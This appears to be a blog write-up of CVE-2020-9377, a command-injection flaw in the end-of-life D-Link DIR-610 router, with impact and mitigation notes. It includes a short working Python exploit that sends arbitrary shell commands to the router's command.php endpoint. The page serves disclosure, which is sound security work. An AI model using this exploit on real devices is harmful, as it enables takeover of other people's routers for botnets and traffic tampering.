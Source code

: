 ```yaml
---
layout: content
title: 'CVE-2020-9377 - Remote Code Execution (RCE) on D-LINK 610 Router'
description: ''
og_image: https://heitorgouvea.me/images/publications/
---
```


### Summary

DIR-610 é um roteador que foi desenvolvido e vendido pela DLINK e foi distribuído na América Central e na América do Sul.

---

### Description

---


### Exploit

```python
#!/usr/bin/python

import os
import sys
import urllib2
import threading
import time

def main(host, port, uid, command):
    request = urllib2.Request('http://%s:%s/command.php' % (host, port), 'cmd=%s' % command, { 'Cookie': 'uid=%s' % uid })
    print urllib2.urlopen(request).read()

if __name__ == '__main__':
    [host, port, uid, command] = sys.argv[1:5]
    main(host, port, uid, command)
```

---

### Impact

A malicious agent can execute commands on the router system remotely and take control of it and subvert such router to work/perform actions that it wants, using the same for botnets, traffic infection actions and other possibilities.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion



---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9377
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-community/attacks/Command_Injection
5. https://portswigger.net/web-security/os-command-injection